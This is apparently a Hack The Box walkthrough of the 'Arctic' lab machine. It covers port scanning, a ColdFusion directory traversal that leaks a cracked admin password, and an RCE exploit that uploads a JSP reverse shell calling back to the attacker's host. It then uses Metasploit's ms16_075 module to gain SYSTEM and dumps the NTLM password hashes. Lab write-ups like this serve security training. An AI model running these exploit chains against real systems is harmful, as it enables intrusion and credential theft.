




# Arctic

## Machine Info



## Recon

### port

nmap

- 135 RPC
- 8500 JRun Web Server

```console
PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  http    JRun Web Server
|_http-title: Index of /
49154/tcp open  msrpc   Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 8|Phone|7|2008|8.1|Vista (92%)
OS CPE: cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1
Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows Embedded Standard 7 (91%), Microsoft Windows 7 or Windows Server 2008 R2 (89%), Microsoft Windows Server 2008 R2 (89%), Microsoft Windows Server 2008 R2 or Windows 8.1 (89%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (89%), Microsoft Windows 7 (89%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (89%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (89%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Foothold

### CVE-2010-2861 Directory Traversal

[Adobe ColdFusion - Directory Traversal - Multiple remote Exploit (exploit-db.com)](https://www.exploit-db.com/exploits/14641) => leak hash value which could be cracked into password

- `http://10.129.189.202:8500/CFIDE/administrator/`





```console
└─╼$ hashcat -m 100 -a 0 hash /usr/share/wordlists/rockyou.txt --show
2f635f6d20e3fde0c53075a84b68fb07dcec9b03:happyday
```



### CVE-2009-2265 Adobe ColdFusion 8, RCE

[Adobe ColdFusion 8 - Remote Command Execution (RCE) - CFM webapps Exploit (exploit-db.com)](https://www.exploit-db.com/exploits/50057)

```console
└─╼$ python exp.py
Generating a payload...
Payload size: 1497 bytes
Saved as: cd214074cf254033a16a885dcfc4694e.jsp

Priting request...
Content-type: multipart/form-data; boundary=7005ae0829194ff7916c06e9872acbb7
Content-length: 1698

--7005ae0829194ff7916c06e9872acbb7
Content-Disposition: form-data; name="newfile"; filename="cd214074cf254033a16a885dcfc4694e.txt"
Content-Type: text/plain

<%@page import="java.lang.*"%>
<%@page import="java.util.*"%>
<%@page import="java.io.*"%>
<%@page import="java.net.*"%>
...
Printing some information for debugging...
lhost: 10.10.16.18
lport: 4444
rhost: 10.129.189.202
rport: 8500
payload: cd214074cf254033a16a885dcfc4694e.jsp

Deleting the payload...

Listening for connection...

Executing the payload...
listening on [any] 4444 ...
connect to [10.10.16.18] from (UNKNOWN) [10.129.189.202] 49566
Microsoft Windows [Version 6.1.7600]

Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>whoami
whoami
arctic\tolis

C:\ColdFusion8\runtime\bin>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= ========
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

## Privilege Escalation

### Enumeration

systeminfo & wes.py

```console
Host Name:                 ARCTIC
OS Name:                   Microsoft Windows Server 2008 R2 Standard
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:
Product ID:                55041-507-9857321-84451
Original Install Date:     22/3/2017, 11:09:45
System Boot Time:          20/2/2024, 3:54:32
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     6.143 MB
Available Physical Memory: 5.058 MB
Virtual Memory: Max Size:  12.285 MB
Virtual Memory: Available: 11.226 MB
Virtual Memory: In Use:    1.059 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    Yes
                                 DHCP Server:     10.129.0.1
                                 IP address(es)
                                 [01]: 10.129.189.202
```

multi/recon/local_exploit_suggester: try these exploits

```console
msf6 post(multi/recon/local_exploit_suggester) > run

[*] 10.129.189.202 - Collecting local exploits for x64/windows...
[*] 10.129.189.202 - 190 exploit checks are being tried...
[+] 10.129.189.202 - exploit/windows/local/bypassuac_dotnet_profiler: The target appears to be vulnerable.
[+] 10.129.189.202 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.129.189.202 - exploit/windows/local/bypassuac_sdclt: The target appears to be vulnerable.
[+] 10.129.189.202 - exploit/windows/local/cve_2019_1458_wizardopium: The target appears to be vulnerable.
[+] 10.129.189.202 - exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move: The service is running, but could not be validated. Vulnerable Windows 7/Windows Server 2008 R2 build detected!
[+] 10.129.189.202 - exploit/windows/local/cve_2020_1054_drawiconex_lpe: The target appears to be vulnerable.
[+] 10.129.189.202 - exploit/windows/local/cve_2021_40449: The service is running, but could not be validated. Windows 7/Windows Server 2008 R2 build detected!
[+] 10.129.189.202 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.129.189.202 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.129.189.202 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The service is running, but could not be validated.
[+] 10.129.189.202 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.129.189.202 - exploit/windows/local/ms16_075_reflection_juicy: The target appears to be vulnerable.
[*] Running check method for exploit 45 / 45
[*] 10.129.189.202 - Valid modules for session 1:
============================

 #   Name                                                           Potentially Vulnerable?  Check Result
 -   ----                                                           -----------------------  ------------
 1   exploit/windows/local/bypassuac_dotnet_profiler                Yes                      The target appears to be vulnerable.
 2   exploit/windows/local/bypassuac_eventvwr                       Yes                      The target appears to be vulnerable.
 3   exploit/windows/local/bypassuac_sdclt                          Yes                      The target appears to be vulnerable.
 4   exploit/windows/local/cve_2019_1458_wizardopium                Yes                      The target appears to be vulnerable.
 5   exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move   Yes                      The service is running, but could not be validated. Vulnerable Windows 7/Windows Server 2008 R2 build detected!
 6   exploit/windows/local/cve_2020_1054_drawiconex_lpe             Yes                      The target appears to be vulnerable.
 7   exploit/windows/local/cve_2021_40449                           Yes                      The service is running, but could not be validated. Windows 7/Windows Server 2008 R2 build detected!
 8   exploit/windows/local/ms14_058_track_popup_menu                Yes                      The target appears to be vulnerable.
 9   exploit/windows/local/ms15_051_client_copy_image               Yes                      The target appears to be vulnerable.
 10  exploit/windows/local/ms16_032_secondary_logon_handle_privesc  Yes                      The service is running, but could not be validated.
 11  exploit/windows/local/ms16_075_reflection                      Yes                      The target appears to be vulnerable.
 12  exploit/windows/local/ms16_075_reflection_juicy                Yes                      The target appears to be vulnerable.
```

### Exploit

```console
msf6 exploit(windows/local/ms16_075_reflection_juicy) > run

[*] Started reverse TCP handler on 10.10.16.18:6666
[+] Target appears to be vulnerable (Windows 2008 R2)
[*] Launching notepad to host the exploit...
[+] Process 2908 launched.
[*] Reflectively injecting the exploit DLL into 2908...
[*] Injecting exploit into 2908...
[*] Exploit injected. Injecting exploit configuration into 2908...
[*] Configuration injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (175686 bytes) to 10.129.189.202
[*] Meterpreter session 2 opened (10.10.16.18:6666 -> 10.129.189.202:49639) at 2024-02-19 15:51:34 +0800

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeAssignPrimaryTokenPrivilege
SeAuditPrivilege
SeBackupPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeCreatePagefilePrivilege
SeCreatePermanentPrivilege
SeCreateSymbolicLinkPrivilege
SeDebugPrivilege
SeImpersonatePrivilege
SeIncreaseBasePriorityPrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
SeLoadDriverPrivilege
SeLockMemoryPrivilege
SeManageVolumePrivilege
SeProfileSingleProcessPrivilege
SeRestorePrivilege
SeSecurityPrivilege
SeShutdownPrivilege
SeSystemEnvironmentPrivilege
SeSystemProfilePrivilege
SeSystemtimePrivilege
SeTakeOwnershipPrivilege
SeTcbPrivilege
SeTimeZonePrivilege
SeUndockPrivilege

meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:43b2102d6ea725605566f689ce6bb604:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
tolis:1000:aad3b435b51404eeaad3b435b51404ee:40ad7d34f236c2624bc826f671998a19:::

c:\Users>dir /s /b user.txt 2>null
dir /s /b user.txt 2>null
c:\Users\tolis\Desktop\user.txt

c:\Users>dir /s /b root.txt 2>null
dir /s /b root.txt 2>null
c:\Users\Administrator\Desktop\root.txt
```

## Exploit Chain

port scan -> JRun CVE -> user shell -> local_exploit_suggester -> ms16_075_reflection_juicy -> admin shell
